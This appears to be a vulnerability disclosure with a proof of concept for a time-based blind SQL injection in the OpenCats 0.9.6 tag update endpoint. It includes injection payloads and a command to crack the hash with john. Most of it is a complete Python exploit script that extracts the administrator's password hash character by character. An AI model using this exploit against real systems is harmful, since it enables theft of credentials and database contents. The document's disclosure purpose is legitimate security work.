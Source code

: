 # SQL injection vulnerability in OpenCats 'Tag' update functionality.

OpenCats version 0.9.6 PHP7.2 suffers from SQL injection vulnerability. This allows attackers control over the application's database.

User has control over tag_id variable, which allows SQL injection in UPDATE statement via time-based/blind techniques.

Application builds the following query:  
`UPDATE tag SET title = 'Title', description = 'Description' WHERE tag_id = XXX AND site_id = 1;`

User has control over XXX part.  

`1337 OR 1337=(select IF(substr(database(),1,1)='a',(select sleep(3)), (select sleep(1)))))`  

With this payload, application will sleep for 3 seconds for every entry inside original table if the database() query result starts with 'a', otherwise
it will sleep for one second.

With this time-based blind technique, attacker is able to exfiltrate any information from the database by querying many YES/NO questions 
to the database and intelligently measuring response times.

# POC
This proof of concept exfiltrates administrator user's password hash:   
`(select password from user where user_id=1)`

![PoC](https://user-images.githubusercontent.com/57464251/193683971-60bceb48-21fe-49fb-8a1d-d522383b8ec0.png)

### Bonus, let's crack the hash
`echo "21232f297a57a5a743894a0e4a801fc3" > hash.txt`  
`john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash.txt`  

![crack](https://user-images.githubusercontent.com/57464251/193689052-cff2b570-87d5-452d-b2d5-be9f0c80df9f.png)

# xploit.py
```python
import requests
import string
import sys

def inRange(rTime, averageTime, sleepAmount):
    if(rTime > sleepAmount and rTime < rTime + (averageTime*20/100) and rTime > rTime - (averageTime*20/100)):
        return True
    else: return False

headers = {}
proxies = {}
#proxies["http"] = "http://127.0.0.1:8080"

#Login and get session cookie..
#Change this
headers["Cookie"] = "CATS=cl2201l24aihqlnch0jgnr4pd2"
url = "http://192.168.203.135/opencats/index.php?m=settings&a=ajax_tags_upd"

#Prepare Content-Type for POST request compability
headers["Content-Type"] = "application/x-www-form-urlencoded"
#Prepare POST parameter 'tag_id'
postdata = "tag_id=PWN&tag_title=test"

#Change this depending on the endpoint
tempPayload = "1 OR 1=(sleep(3))"

print("Sending few request to determine average response time...")

timeSum = 0
numberOfBaselineRequests = 5
for i in range(numberOfBaselineRequests):
    try:
        rTest = requests.post(url, headers = headers, data=postdata.replace('PWN','1337'), proxies = proxies) 
        timeSum  += rTest.elapsed.total_seconds()
        if('<form name="loginForm"' in rTest.text):
            print("Session cookie not valid, change it inside .py")
            sys.exit(-1)
    except:
        print("Some exception ocurred while sending or receiving data from the application. Make sure IP is good. Exiting..")
        sys.exit(-1)

averageTime = timeSum/numberOfBaselineRequests
print("Average response time for " + str(numberOfBaselineRequests) + " requests is : " + str(averageTime))

print("\nTrying to inject sleep(3)")
r = requests.post(url, headers = headers, data = postdata.replace('PWN',tempPayload), proxies = proxies)
rTime = r.elapsed.total_seconds()
print("Response time: " + str(rTime))

if(inRange(rTime, averageTime, 3)):
    print("\n[+] Application is vulnerable to SQL injection...")

#Getting value for false statement -> sleep(1)
tempPayload2 = "1 or 1=(sleep(0.1))"
r2 = requests.post(url, headers = headers, data = postdata.replace('PWN',tempPayload2), proxies = proxies)
t_sleep_one = r2.elapsed.total_seconds()

tempPayload3 = "1 or 1=(sleep(0.3))"
r3 = requests.post(url, headers = headers, data=postdata.replace('PWN', tempPayload3), proxies = proxies)
t_sleep_three = r3.elapsed.total_seconds()

print("False statement time: " + str(t_sleep_one))
print("True statement time: " + str(t_sleep_three) + "\n")

length = 0
exfilQuery = "1 OR 1=(IF(length((select password from user where user_id=1))='XXX',sleep(0.3),sleep(0.1)))"
#Determine length of the result that we want. i.e select passwrod from user query...
print("Determining the result length of our query...")

while(True):
    q = exfilQuery.replace('XXX', str(length))
    r = requests.post(url, headers = headers, data = postdata.replace('PWN', q))
    time = r.elapsed.total_seconds()

    #If sleep(3) gets executed, we have correct length
    if(time > (t_sleep_one+(t_sleep_one*20/100))):
        print("Got length " + str(length))
        break
    
    length += 1
    if(length == 1000):
        break
    
if(length == 0 or length == 1000):
    print("Something is wrong. Exiting...")
    sys.exit(-1)
else: print("Length of '(select password from user where user_id=1)' query: " + str(length))

#OK----|
alphanumerics = list(string.ascii_lowercase + string.digits)
exfilQuery = "1 OR 1=(IF(substr((select password from user where user_id=1),YYY,1) = 'XXX',sleep(0.3), sleep(0.1)))"

data = []
print("Exfiltrating data. Query: (select password from user where user_id=1). Patience...")

for i in range(length):
    for item in alphanumerics:
        q = exfilQuery.replace('XXX',str(item))
        q = q.replace('YYY',str(i+1))
        r = requests.post(url, headers = headers, data = postdata.replace('PWN',q), proxies = proxies)
        time = r.elapsed.total_seconds()
        #print(str(time) + "\n")
        if(time > (t_sleep_one+(t_sleep_one*20/100))):
            print(str(i+1) + ". Letter = " + item)
            data.append(item)
            break

print("(select password from user where user_id=1) -> " + "".join(data))
```
